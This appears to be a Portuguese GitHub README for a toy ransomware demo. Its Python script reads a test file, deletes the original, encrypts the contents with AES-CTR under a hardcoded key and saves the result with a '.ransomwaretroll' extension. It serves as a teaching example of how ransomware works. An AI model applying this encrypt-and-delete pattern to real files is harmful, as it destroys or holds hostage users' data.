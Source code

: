 - ## Criptografia de Arquivo usando AES em modo CTR

Breve Explicação - Os dois codigos seguem mesma base:

- Importação das bibliotecas os e pyaes.
- Definição do nome do arquivo a ser criptografado e leitura dos dados do arquivo.
- Remoção do arquivo original.
- Definição da chave de criptografia.
- Criptografia dos dados do arquivo usando o algoritmo AES em modo CTR.
- Salvando o arquivo criptografado com a extensão ".ransomwaretroll".

Neste exemplo, o programa realiza a criptografia de um arquivo usando o algoritmo de criptografia simétrica AES (Advanced Encryption Standard) em modo de operação CTR (Counter Mode). 
E adiciona uma extensão ".ransomwaretroll" ao nome do arquivo criptografado.

```python
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()


